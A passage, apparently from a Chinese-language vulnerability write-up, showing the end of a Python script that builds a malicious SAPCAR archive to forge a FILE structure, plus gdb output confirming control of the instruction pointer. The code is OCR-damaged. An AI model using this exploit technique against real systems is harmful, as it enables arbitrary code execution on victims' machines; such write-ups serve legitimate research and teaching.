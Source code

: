```
    f._sapcar.files0[0].blocks.append(Raw("DAx08x00x00x00"))
    f._sapcar.files0[0].blocks.append(Raw("DAx84x65x00x00"))
    f._sapcar.files0[0].blocks.append(Raw("D&gt;" + "x00"*32 + "xd0xd0"))
    f._sapcar.files0[0].blocks.append(Raw(data))
    f.write()
def main():
    write_exp(overwrite_FILE_pointer(BUF_ADDRESS + FILE_STRUCT_SIZE))
if __name__ == "__main__":
main()
```

我们创建了一个新的文档，然后再次运行代码。这一次我们将控制RIP并重定向执行流：

```
Stopped reason: SIGSEGV
0x0000000041424344 in ?? ()
gdb-peda$ bt
#0  0x0000000041424344 in ?? ()
#1  0x00007ffff6bb129f in _IO_new_fclose (fp=0xa1c870) at iofclose.c:62
#2  0x000000000040c58b in ?? ()
#3  0x000000000041958b in ?? ()
#4  0x000000000042bc43 in ?? ()
#5  0x000000000043fc66 in ?? ()
#6  0x00007ffff6b64830 in __libc_start_main (main=0x43ffb0, argc=0x3, argv=0x7fffffffe488, init=&lt;optimized out&gt;, fini=&lt;optimized out&gt;, rtld_fini=&lt;optimized out&gt;, stack_end=0x7fffffffe478)
at ../csu/libc-start.c:291
```

除此之外，我们还可以检查文件指针来确定我们伪造的结构体存储正确了：

```
gdb-peda$ p *(FILE *)0xa1c870
$1 = `{`
  _flags = 0x80018001, 
  _IO_read_ptr = 0x41414141 &lt;error: Cannot access memory at address 0x41414141&gt;, 
  _IO_read_end = 0x42424242 &lt;error: Cannot access memory at address 0x42424242&gt;, 
  _IO_read_base = 0x43434343 &lt;error: Cannot access memory at address 0x43434343&gt;, 
  _IO_write_base = 0x44444444 &lt;error: Cannot access memory at address 0x44444444&gt;, 
  _IO_write_ptr = 0x45454545 &lt;error: Cannot access memory at address 0x45454545&gt;, 
  _IO_write_end = 0x46464646 &lt;error: Cannot access memory at address 0x46464646&gt;, 
  _IO_buf_base = 0x47474747 &lt;error: Cannot access memory at address 0x47474747&gt;, 
  _IO_buf_end = 0x48484848 &lt;error: Cannot access memory at address 0x48484848&gt;, 
  _IO_save_base = 0x49494949 &lt;error: Cannot access memory at address 0x49494949&gt;, 
  _IO_backup_base = 0x50505050 &lt;error: Cannot access memory at address 0x50505050&gt;, 
  _IO_save_end = 0x51515151 &lt;error: Cannot access memory at address 0x51515151&gt;, 
  _markers = 0x52525252, 
  _chain = 0x53535353, 
  _fileno = 0x54545454, 
  _flags2 = 0x55555555, 
  _old_offset = 0x56565656, 
  _cur_column = 0x5757, 
  _vtable_offset = 0x58, 
  _shortbuf = "", 
  _lock = 0x60606060, 
  _offset = 0x61616161, 
  _codecvt = 0x62626262, 
  _wide_data = 0x63636363, 
  _freeres_list = 0x64646464, 
  _freeres_buf = 0x65656565, 
  __pad5 = 0x66666666, 
  _mode = 0x67676767, 
  _unused2 = 'A' &lt;repeats 20 times&gt;
`}`
```
